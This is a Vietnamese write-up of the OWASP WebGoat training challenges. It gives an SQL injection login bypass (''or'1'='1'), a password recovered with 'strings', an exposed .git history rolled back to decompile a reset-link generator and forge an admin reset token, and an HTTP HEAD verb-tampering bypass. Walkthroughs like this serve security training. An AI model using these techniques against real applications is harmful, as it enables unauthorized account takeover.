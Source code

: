 # Challenges

## Admin lost password

Mình thử `strings` tấm hình ở ngay phần login thì tìm được pass và 1 chuỗi base64 của pass fake.

![26](images/26.png)

![25](images/25.png)

pass:

```
!!webgoat_admin_0232!!
```

## Without password

Đây là bài sqli cơ bản, mình chỉ cần `'or'1'='1` là xong.

![27](images/27.png)

## Admin password reset

Ban đầu mình gửi email đến WebWolf và nhận được link, tuy nhiên không phải là link admin:

![28](images/28.png)
![29](images/29.png)

Thử `.git` thì mình tìm được 1 file nén:

![30](images/30.png)

Giải nén ra thì đây là file `.git`

```console
$ mv .git git.zip
$ unzip git.zip
$ ls .git
branches  COMMIT_EDITMSG  config  description  HEAD  hooks  index  info  logs  objects  refs
```

Mình tiếp tục check log và reset về commit đầu tiên:

```console
$ git log
commit 2e29cacb85ce5066b8d011bb9769b666812b2fd9 (HEAD -> master)
Author: Nanne Baars <nanne.baars@owasp.org>
Date:   Thu Aug 17 06:41:32 2017 +0200

    Updated copyright to 2017

commit ac937c7aab89e042ca32efeb00d4ca08a95b50d6
Author: Nanne Baars <nanne.baars@owasp.org>
Date:   Thu Aug 17 06:41:09 2017 +0200

    Removed hardcoded key

commit f94008f801fceb8833a30fe56a8b26976347edcf
Author: Nanne Baars <nanne.baars@owasp.org>
Date:   Thu Aug 17 06:40:04 2017 +0200

    First version of WebGoat Cloud website
$ git reset --hard f94008f801fceb8833a30fe56a8b26976347edcf
HEAD is now at f94008f First version of WebGoat Cloud website
$ ls
Challenge_7.adoc   Challenge7.html   git.zip  'MD5$1.class'  'MD5$MD5State.class'   MD5.class   PasswordResetLink.class
```

Ở đây có 1 file là `PasswordResetLink.class` nên mình dùng `jd-gui` để decode:

![31](images/31.png)

Sau khi đọc qua source thì file này nhận vào 1 param là `username` sau đó tạo link reset password, mình nhập `admin` vào và tạo được link:

```console
$ java PasswordResetLink admin
Generation password reset link for admin
Created password reset link: 375afe1104f4a487a73823c50a9292a2
```

Dùng link này để reset password là xong.

![32](images/32.png)

## Without account

Ở đây mình đổi từ `GET` method sang `HEAD` là xong.

![33](images/33.png)